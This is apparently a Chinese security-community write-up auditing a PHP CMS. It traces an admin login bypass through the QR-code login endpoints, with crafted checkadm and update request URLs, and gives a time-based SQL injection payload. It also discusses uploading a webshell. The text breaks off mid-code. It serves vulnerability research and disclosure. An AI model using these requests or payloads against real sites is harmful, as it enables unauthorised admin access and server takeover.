









# 奇安信攻防社区-一次曲折的漏洞挖掘

### 一次曲折的漏洞挖掘

在复现某cms漏洞时，尝试审计一下该cms，没想到反转再反转，记录审计一下过程

## 0x00 起因

在复现某cms漏洞时，尝试审计一下该cms，没想到反转再反转，记录审计一下过程

## 0x01 路由情况

该cms分为`admin`、`api`、`www`三个模块

```php
final public function action()
{
    if(!$this->_iscmd){
       $this->init_site();
    }
    $this->init_view();
    $this->init_assign();
    $this->init_plugin();
    if($this->app_id == 'admin'){
       $this->action_admin();
       exit;
    }
    if($this->app_id == 'api'){
       $this->action_api();
       exit;
    }
    $this->action_www();
}
```

然后通过参数c和参数f确定`control`和`function`

```php
/**
 * 接口入口处理
**/
private function action_api()
{
    $ctrl = $this->get($this->config["ctrl_id"],"system");
    if(!$ctrl){
       $ctrl = 'index';
    }
    $func = $this->get($this->config["func_id"],"system");
    if(!$func){
       $func = 'index';
    }
    $this->_action($ctrl,$func);
}
```

## 0x02 找到一上传点

api下的路由是未授权可以直接访问的，然后我们在`api/upload_control.php`中找到一个`save`方法

```php
//存储上传的数据，游客仅能上传jpg,png,gif,jpeg附件
    //普通用户能上传的附件有：jpg,png,gif,jpeg,zip,rar,doc,xls,docx,xlsx,txt,ppt,pptx
    public function save_f()
    {
        if($this->u_id){
            if(!$this->site['upload_user']){
                $this->json(P_Lang('你没有上传权限'));
            }
        }else{
            if(!$this->site['upload_guest']){
                $this->json(P_Lang('游客没有上传权限'));
            }
        }
        $cateid = $this->get('cateid','int');
        if($cateid){
            $cate_rs = $this->model('rescate')->get_one($cateid);
        }
        if(!$cate_rs){
            $cate_rs = $this->model('rescate')->get_default();
            if(!$cate_rs){
                $this->json(P_Lang('未配置附件存储方式'));
            }
        }
        $filetypes = $this->u_id ? $cate_rs['filetypes'] : 'jpg,png,gif,rar,zip';
        $this->lib('upload')->set_type($filetypes);
        $this->lib('upload')->set_cate($cate_rs);
        $upload = $this->lib('upload')->upload('upfile');
        if(!$upload || !$upload['status']){
            $this->json(P_Lang('附件上传失败'));
        }
        if($upload['status'] != 'ok'){
            $tip = $upload['error'] ? $upload['error'] : $upload['content'];
            $this->json('上传失败，'.$tip);
        }
        $array = array();
        $array["cate_id"] = $this->lib('upload')->get_cate();
        $array["folder"] = $this->lib('upload')->get_folder();
        $array["name"] = $upload['name'];
        $array["ext"] = $upload["ext"];
        $array["filename"] = $upload['filename'];
        $array["addtime"] = $this->time;
        $array['title'] = $upload['title'];
        $array["mime_type"] = $upload['mime_type'];
        $arraylist = array("jpg","gif","png","jpeg");
        if(in_array($upload['ext'],$arraylist)){
            $img_ext = getimagesize($this->dir_root.$upload['filename']);
            $my_ext = array("width"=>$img_ext[0],"height"=>$img_ext[1]);
            $array["attr"] = serialize($my_ext);
        }
        if(!$this->is_client){
            $array["session_id"] = $this->session->sessid();
        }
        $array['user_id'] = $this->u_id;
        $id = $this->model('res')->save($array);
        if(!$id){
            $this->lib('file')->rm($this->dir_root.$upload['filename']);
            $this->json(P_Lang('图片存储失败'));
        }
        $this->model('res')->gd_update($id);
        $rs = $this->model('res')->get_one($id);
        $this->json($rs,true);
    }
```

这里首先判断权限，未授权情况属于游客权限，然后通过`cateid`参数值从数据库中查询对应id的上传类型


不过当游客身份是`u_id`为0，此时`$filetypes = $this->u_id ? $cate_rs['filetypes'] : 'jpg,png,gif,rar,zip';`结果为`jpg,png,gif,rar,zip`，只能上传图片和压缩包，而注册用户可以根据`cateid`来指定文件后缀。此时就有了两个思路

1.  通过上传zip文件，寻找unzip的接口，解压webshell
2.  寻找sql注入点来修改数据库文件后缀，根据低权限用户指定后缀，上传webshell

我们首先来找找系统解压点，这里我是搜索关键字`unzip`



可以看到接口基本都在`admin`路由下，接口访问有权限校验，随后就想看看`admin`的登录模块有没有漏洞

## 0x03 尝试登录绕过

除了账号密码验证以外，该cms还提供了扫码登录

首先是生成验证码字符内容方法

```php
//生成二维码需要的字串
public function qrcode_f()
{
    $data = array();
    $data['ip'] = $this->lib('common')->ip();
    $data['time'] = $this->time;
    $data['code'] = $this->lib('common')->str_rand(10,'letter');
    $data['domain'] = $this->_domain();
    $keyid = $this->lib('common')->str_rand(16);
    $fid = 'a'.$this->lib('common')->str_rand(31);
    $this->lib('token')->keyid($keyid);
    $content = $this->lib('token')->encode($data);
    $this->lib("file")->vi($keyid,$this->dir_cache.$fid.'.php');
    $tmp = array('fid'=>$fid,'content'=>$content,'code'=>md5($data['domain']));
    $this->session->assign('admin_qrcode_code',$data['code']);
    $this->success($tmp);
}
```

这里会生成两个随机码`$keyid`和`$fid`，前者是用于加密data数据的密钥，后者是存在密钥的临时文件。然后返回密钥文件名和加密数据

而二维码的链接指向mobile方法


同时将`fid`和`content`作为请求参数，同时`checking`方法监听扫码结果

```php
public function checking_f()
    {
        $fid = $this->get('fid');
        if(!$fid){
            $this->error(P_Lang('未指定验证ID'));
        }
        $content = $this->get('content','html');
        if(!$content){
            $this->error(P_Lang('内容不能为空'));
        }
        if(!$this->session->val('admin_qrcode_code')){
            $this->error(P_Lang('获取密钥失败，请重新扫码'));
        }
        $file = $this->dir_cache.$fid.'.php';
        if(!file_exists($file)){
            $this->error(P_Lang('验证文件丢失，请重新扫码'));
        }
        $keyid = $this->lib('file')->cat($file);
        $this->lib('token')->keyid($keyid);
        $data = $this->lib('token')->decode($content);
        if(!$data){
            $this->error(P_Lang('内容丢失，请重新扫码'));
        }
        if(!is_array($data) || !$data['ip'] || !$data['code'] || !$data['time']){
            $this->error(P_Lang('数据异常，请重新扫码'));
        }
        //忽略IP检测，因为经常出现不一致
        if($data['code'] != $this->session->val('admin_qrcode_code')){
            $this->error(P_Lang('密钥异常，请重新扫码登录'));
        }
        $used_time = $this->time - $data['time'];
        $expire_time = 300;
        if($this->config['admin_qrcode_expire_time'] && $this->config['admin_qrcode_expire_time']>120){
            $expire_time = $this->config['admin_qrcode_expire_time'];
        }
        if($used_time > $expire_time){
            $this->error(P_Lang('登录超时，请刷新重新扫码'));
        }
        //检测是否已登录
        $login_file = $this->dir_cache.$fid.'-'.$data['code'].'.php';
        if(!file_exists($login_file)){
            $check_file = $this->dir_cache.$fid.'-checking.php';
            if(file_exists($check_file)){
                $this->tip(1);
            }
            $this->tip(P_Lang('等待手机端扫码'));
        }
        $info = $this->lib('file')->cat($login_file);
        if(!$info){
            $this->error(P_Lang('登录失败，请重新扫码'));
        }
        $c_info = $this->lib('json')->decode($info);
        if(!$c_info || !$c_info['id'] || !$c_info['user'] || !$c_info['time']){
            $this->error(P_Lang('登录失败，请重新扫码'));
        }
        $rs = $this->model('admin')->get_one($c_info['id']);
        if(!$rs){
            $this->error(P_Lang('管理员不存在'));
        }
        if(!$rs['status']){
            $this->error(P_Lang('管理员已被锁定'));
        }
        if($rs['account'] != $c_info['user']){
            $this->error(P_Lang('账号不一致，请检查'));
        }
        //获取管理员的权限
        $this->session->assign('admin_site_id',$this->site['id']);
        if(!$rs["if_system"]){
            $popedom_list = $this->model('admin')->get_popedom_list($rs["id"]);
            if(!$popedom_list){
                $this->error(P_Lang('你的管理权限未设置好，请联系超级管理员进行设置'));
            }
            $this->session->assign('admin_popedom',$popedom_list);
            $site_id = $this->model('popedom')->get_site_id($popedom_list);
            if(!$site_id){
                $this->error(P_Lang('你的管理权限未设置好，请联系超级管理员进行设置'));
            }
            $this->session->assign('admin_site_id',$site_id);
        }
        $this->session->assign('admin_id',$rs['id']);
        $this->session->assign('admin_account',$rs['account']);
        $this->session->assign('admin_rs',$rs);
        if($c_info['online']){
            $this->session->assign('admin_login_time',$this->time);
            $this->session->assign('admin_long_time',$c_info['online']);
        }
        if($this->config['develop']){
            $this->session->assign('adm_develop',true);
        }
        $this->model('admin')->lock_delete($rs['account']);
        $this->lib('file')->rm($login_file);
        $this->lib('file')->rm($file);
        $this->lib('file')->rm($this->dir_cache.$fid.'-checking.php');
        $this->success(P_Lang('管理员登录成功'));
    }
```

这里主要是检查两个文件的存在

```php
$login_file = $this->dir_cache.$fid.'-'.$data['code'].'.php';
if(!file_exists($login_file)){
    $check_file = $this->dir_cache.$fid.'-checking.php';
    if(file_exists($check_file)){
        $this->tip(1);
    }
    $this->tip(P_Lang('等待手机端扫码'));
}
```

并且对文件中内容进行解密

```php
$c_info = $this->lib('json')->decode($info);
if(!$c_info || !$c_info['id'] || !$c_info['user'] || !$c_info['time']){
    $this->error(P_Lang('登录失败，请重新扫码'));
}
$rs = $this->model('admin')->get_one($c_info['id']);
if(!$rs){
    $this->error(P_Lang('管理员不存在'));
}
if(!$rs['status']){
    $this->error(P_Lang('管理员已被锁定'));
}
if($rs['account'] != $c_info['user']){
    $this->error(P_Lang('账号不一致，请检查'));
}
```

解密后的数据中必须包括`id`、`user`、`time`三个键值对，同时根据id值来查询用户信息，后续根据该用户信息进行登录

而验证码链接中的认证是在`update_f`方法

```php
public function update_f()
{
    $login_time = $this->get('login_time');
    if(!$login_time){
        $login_time = 1440;
    }
    $fid = $this->get('fid','system');
    $fcode = $this->get('fcode','system');
    if(!$fid && !$fcode){
        $this->error(P_Lang('登录数据不完整'));
    }
    $quickcode = $this->get('quickcode','html');
    if($quickcode){
        $file = $this->dir_cache.$fid.'.php';
        if(!file_exists($file)){
            $this->error(P_Lang('验证文件丢失，请重新扫码'));
        }
        $keyid = $this->lib('file')->cat($file);
        $this->lib('token')->keyid($keyid);
        $msg = $this->lib('token')->decode($quickcode);
        if(!$msg || !is_array($msg) || !$msg['id'] || !$msg['user'] || !$msg['time'] || !$msg['domain']){
            $this->error(P_Lang('数据解码失败'));
        }
        $msg['id'] = intval($msg['id']);
        if(!$msg['id']){
            $this->error(P_Lang('数据不正确，请检查'));
        }
        //超过30天，告知无效
        $time = $this->time - $msg['time'];
        if($time>(30*24*60*60)){
            $this->error(P_Lang('数据超过30天，请重新登录'));
        }
        $domain = $this->_domain();
        if($msg['domain'] != $domain){
            $this->error(P_Lang('数据来源不准确'));
        }
        $rs = $this->model('admin')->get_one($msg['id']);
        if(!$rs || $rs['account'] != $msg['user']){
            $this->error(P_Lang('账号不一致'));
        }
    }else{
        $user = $this->get('user');
        $pass = $this->get('pass');
        if(!$user || !$pass){
            $this->error(P_Lang('账号/密码不能为空'));
        }
        $rs = $this->model('admin')->get_one_from_name($user);
        if(!$rs){
            $this->error(P_Lang('管理员信息不存在'));
        }
        if(!$rs["status"]){
            $this->error(P_Lang("管理员账号已被锁定，请联系超管"));
        }
        if(!password_check($pass,$rs["pass"])){
            $this->error(P_Lang('管理员密码输入不正确'));
        }
    }
    $domain = $this->_domain();
    $data = array('id'=>$rs['id'],'user'=>$rs['account'],'time'=>$this->time);
    $data['domain'] = $domain;
    $data['online'] = $login_time;
    //删除checking文件，创建登录文件
    $this->lib('file')->rm($this->dir_cache.$fid.'-checking.php');
    $this->lib('file')->vi($this->lib('json')->encode($data),$this->dir_cache.$fid.'-'.$fcode.'.php');
    $this->success();
}
```

这里可以看到除了用账户密码进行登录外还有通过`quickcode`进行登录

```php
if($quickcode){
    $file = $this->dir_cache.$fid.'.php';
    if(!file_exists($file)){
        $this->error(P_Lang('验证文件丢失，请重新扫码'));
    }
    $keyid = $this->lib('file')->cat($file);
    $this->lib('token')->keyid($keyid);
    $msg = $this->lib('token')->decode($quickcode);
    if(!$msg || !is_array($msg) || !$msg['id'] || !$msg['user'] || !$msg['time'] || !$msg['domain']){
        $this->error(P_Lang('数据解码失败'));
    }
    ...
    $rs = $this->model('admin')->get_one($msg['id']);
    if(!$rs || $rs['account'] != $msg['user']){
        $this->error(P_Lang('账号不一致'));
    }
 ...
```

主要是获取`$fid`文件中的密钥来解密`quickcode`，解密后的数据中要包括`id`、`user`、`time`、`domain`四个键值对，并且判断数据库中对应id值的用户名和user值是否相同

```php
$data = array('id'=>$rs['id'],'user'=>$rs['account'],'time'=>$this->time);
$data['domain'] = $domain;
$data['online'] = $login_time;
//删除checking文件，创建登录文件
$this->lib('file')->rm($this->dir_cache.$fid.'-checking.php');
$this->lib('file')->vi($this->lib('json')->encode($data),$this->dir_cache.$fid.'-'.$fcode.'.php');
$this->success();
```

随后生成`checking`方法中所需的数组，加密存入`$fid-$fcode`验证文件中

这里就有个问题`$fid`密钥文件中内容除非有未授权任意文件读不然是不可读的。遗憾的是妹找到读取点。一筹莫展之际，发现还有个`checkadm_f`方法

```php
public function checkadm_f()
{
    $api_code = $this->model('config')->get_one('api_code',$this->site['id']);
    if(!$api_code){
       $this->error(P_Lang("后台未设置解码密钥"));
    }
    $fid = $this->get('fid');
    if(!$fid){
       $this->error(P_Lang('未指定验证ID'));
    }
    $file = $this->dir_cache.$fid.'.php';
    if(!file_exists($file)){
       $this->error(P_Lang('验证文件丢失，请重新扫码'));
    }
    $content = $this->get('content','html');
    if(!$content){
       $this->error(P_Lang('内容不能为空'));
    }
    $this->lib('token')->keyid($api_code);
    $msg = $this->lib('token')->decode($content);
    if(!$msg || !is_array($msg) || !$msg['id'] || !$msg['user'] || !$msg['time'] || !$msg['domain']){
       $this->error(P_Lang('数据解码失败'));
    }
    //超过30天，告知无效
    $time = $this->time - $msg['time'];
    if($time>(30*24*60*60)){
       $this->error(P_Lang('数据超过30天，自动无效'));
    }
    $domain = $this->_domain();
    if($msg['domain'] != $domain){
       $this->error(P_Lang('数据来源不准确'));
    }
    $rs = $this->model('admin')->get_one($msg['id']);
    if(!$rs || $rs['account'] != $msg['user']){
       $this->error(P_Lang('账号不一致'));
    }
    $data = array('id'=>$rs['id'],'user'=>$rs['account'],'time'=>$this->time);
    $data['domain'] = $domain;
    //基于临时密码生成账号密串
    $keyid = $this->lib('file')->cat($file);
    $this->lib('token')->keyid($keyid);
    $this->lib('token')->expiry(300);
    $logincode = $this->lib('token')->encode($data);
    $this->model('log')->add(P_Lang('生成客户端密钥，用于下次扫码快速确认登录'));
    $this->success(array('account'=>$rs['account'],'logincode'=>$logincode));
}
```

该方法首先用`config`数据表中的`api_code`的内容作为密钥来解密请求参数`content`的密文，当存在`id`、`user`、`time`、`domain`四个键值对

时会找到请求参数`$fid`对应文件的内容做密钥，加密`$data`变量，并将结果在`logincode`字段返回。可以看到`$data`的内容和`update_f`方法中`quickcode`的键值是完全相同的。并且`config`数据表是安装时进行初始化的属于默认值。

根据上面分析我们可以有如下思路

1.  利用数据库中`api_code`的值来加密用户为`admin`的信息
2.  利用`checkadm`接口来生成`update`接口所需的加密字符串
3.  通过访问`update`接口生成checking文件进行登录

ps：好像一切都想好的地方发展，难道成了？！

## 0x04 思路实现

1.  编写代码生成`admin`信息加密文本

```php
$data = array('id'=>1, 'user'=>'admin', 'time'=>'1698570334', 'domain'=>'192.168.31.243');
$api_code = $this->model('config')->get_one('api_code',$this->site['id']);
$this->lib('token')->keyid($api_code);
$msg = $this->lib('token')->encode($data);
$this->success($msg);

//res: {"info":"bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs","status":1}
```

2.  进行登录绕过

首先点击生成二维码，并抓取请求



提取fid和content的值，构造二维码链接内容

```url
/admin.php?c=login&f=mobile&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=98f74dWIq9Fxl3ylM9PTGN5t7uLXvxUjkBvgGN8Gi3R3vUXDr+CUy39CuedoZEs1VhBcRGsHJyslvZZxA4ymf4s12N2\/oFNbDhIeMtuj53uEp\/VL00EFK1emBS22iR4htlxmCvChgKcOeZvTjZIrtGI57wH\/s
```

提取页面中`fcode`的值



然后构造`checkadm`请求，用`fid`文件内容密钥加密admin信息

```php
/admin.php?c=login&f=checkadm&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs
```

此时的`content`值为最前面代码生成的值


最后构造`update`请求

```php
/admin.php?c=login&f=update&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&fcode=IuTqXDTrmZ&quickcode=5763e7yWM3LaZJQTPPSlkZFkTFx6omzreRjsbYXPaoAIiC1hhKNXxRczafeiIAeBbQh7yryr5kK95L5H6DTne06PB0P7gJEwEszkv3uxGqEJawXLczrMe5ifwr2BcEls8bpuA
```

`quickcode`为上一步返回包中`logincode`的值



成功进入后台。哎！出洞了！！亏贼！！！

## 0x05 小丑时刻

当我兴高采烈找个站测试时，发送`checkadmin`请求时提示**数据解码失败**报错了！wtf？！


难道`api_code`不是安装默认的？

翻找了初始化SQL文件，并没找到有关`api_code`设置语句，全局搜索`api_code`，在安装文件中找到了绝望的一句话，芭比Q了



开发真不给机会啊，这下真小丑了！

继续小丑行为，尝试补救看能找到可控加密数组的点不

还真在`api/index_control`了中找到一个从请求中获取数组的代码

```php
$ext = $this->get('ext');
if($ext && is_array($ext)){
    foreach($ext as $key=>$value){
        if($key == 'sqlext' && $value){
            $value = str_replace(array('&#39;','&quot;','&apos;','&#34;'),array("'",'"',"'",'"'),$value);
        }
        $param[$key] = $value;
    }
}
$this->lib('token')->keyid($api_code);
$array = array('id'=>$id,'param'=>$param);
$token = $this->lib('token')->encode($array);
$this->success($token);
```

结果可控是可控，但是数组给赋值给了`param`存入并加密。栓Q！

目前看来只能找个注入来查看或者修改数据库中`api_code`的值了，要是这样就直接可以改数据库文件后缀直接getshell免去登录操作。。。

## 0x06 寻找SQL注入点

网上找到了关于该cms的历史分析

发现相关的phpxx()方法并没有多大变化

```php
//执行数据调用
public function phpxx($id,$rs="")
{
   if(!$id){
      return false;
   }
   //格式化参数
   if($rs && is_string($rs)){
      parse_str($rs,$rs);
   }
   //扩展参数
   if(!$rs){
      $rs = array('site'=>$this->site['id']);
   }
   if($this->is_mobile){
      $rs['_mobile'] = true;
   }
   if(!isset($rs['site']) || (isset($rs['site']) && !$rs['site'])){
      $rs['site'] = $this->site['id'];
   }
   if($rs['site']){
      $rs['site'] = intval($rs['site']);
   }
   if($rs['site'] != $this->site['id']){
      $siteinfo = $this->model('site')->get_one($rs['site']);
   }else{
      $siteinfo = $this->site;
   }
   if(!$siteinfo){
      return false;
   }
   if($rs['site'] != $this->site['id']){
      $baseurl = 'http://'.$siteinfo['domain'].$siteinfo['dir'];
   }else{
      $baseurl = $this->url;
   }
   //定义 _baseurl
   $rs['_baseurl'] = $baseurl;
   $this->model('url')->base_url($baseurl);
   if(substr($id,0,1) != '_'){
      $call_rs = $this->load_phpoklist($id,$rs['site']);
      if(!$call_rs){
         return false;
      }
      if($rs && is_array($rs)){
         $call_rs = array_merge($call_rs,$rs);
      }
   }else{
      $list = $this->_phpok_sys_func();
      $id = substr($id,1);
      if($id == "arclist"){
         if(isset($rs['is_list']) && (!$rs['is_list'] || $rs['is_list'] === 'false')){
            $rs['is_list'] = false;
         }else{
            $rs['is_list'] = true;
         }
      }
      if(!$id || !in_array($id,$list)){
         return false;
      }
      $call_rs = array_merge($rs,array('type_id'=>$id));
   }
   $func = '_'.$call_rs['type_id'];
   if(!in_array($func,$this->mlist)){
      return false;
   }
   //禁用缓存获取数据
   if(isset($call_rs['cache']) && ($call_rs['cache'] == 'false' || !$call_rs['cache'])){
      return $this->$func($call_rs);
   }
   $cache_id = $this->cache->id($call_rs);
   $info = $this->cache->get($cache_id);
   if($info){
      return $info;
   }
   $this->db->cache_set($cache_id); //初始化缓存ID
   return $this->$func($call_rs,$cache_id);
}
```

这里会通过`$this->$func`调用`$call_rs['type_id']`方法

有如上多个方法。在此文件中我们发现`xxx_condition`中有大量拼接sql语句的地方,比如下面这段

```php
if($rs['idin']){
    $tmp = explode(",",$rs['idin']);
    foreach($tmp as $key=>$value){
        if(!$value || !trim($value) || !intval($value)){
            unset($tmp[$key]);
            continue;
        }
    }
    $condition .= " AND l.id IN(".(implode(",",$tmp)).") ";
}
```

这里的限制主要是以逗号分隔后，对`$value`进行判断，若满足`(!$value || !trim($value) || !intval($value))`则会被unset，前两个好说，第三个有点限制作用：`,`跟着的不能为字母，否则`intval`必然得到0，然后`!`就转为1，就被删除了，所以正常的payload需要稍加更改，保证`,`后面不是字母和0即可，比如`1,1 and if(1,1 and sleep(7.1),1)`。

而此方法在其他函数中有调用

```php
$condition = $this->xxx_dition($rs,$flist,$project);
$array['total'] = $this->model('list')->arc_count($project['module'],$condition);
```

其中的$rs对象也就是从`$this->$func($call_rs,$cache_id);`传入的`$call_rs`

来的call\_control.php，也就是调用点

```php
public function index_f()
    {
        $data = $this->get('data','html');
        if(!$data){
            $this->error(P_Lang('未指定参数变量'));
        }
        if(substr($data,0,1) == '{'){
            $data = $this->lib('json')->decode(stripslashes($data));
            if($data){
                $data = $this->format($data);
            }
        }else{
            $tmplist = explode(",",$data);
            $data = array();
            foreach($tmplist as $key=>$value){
                $data[$value] = array();
            }
        }
        //基于接口禁用SQL
        $is_error = false;
        foreach($data as $key=>$value){
            if(isset($value['type_id'])){
                $is_error = true;
                break;
            }
        }
        if($is_error){
